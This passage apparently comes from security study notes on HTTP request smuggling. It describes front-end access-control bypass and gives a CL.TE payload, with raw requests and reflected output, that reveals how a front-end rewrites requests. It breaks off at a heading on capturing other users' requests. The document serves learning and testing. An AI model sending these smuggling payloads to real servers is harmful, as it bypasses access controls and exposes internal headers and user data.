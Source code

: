 * The front-end server sees two requests here, both for `/home`, and so the requests are forwarded to the back-end server.&#x20;
* The back-end server sees requests for `/home` and `/admin`, assumes they've passed front-end controls, and grants access to the restricted URL.

### Revealing front-end request rewriting

**CL.TE**

Find a request that reflects the value

```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=user@normal-user.net
```

```html
<input id="email" value="user@normal-user.net" type="text">
```

Use the following request smuggling attack to reveal the rewriting

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

### Capturing other users' requests
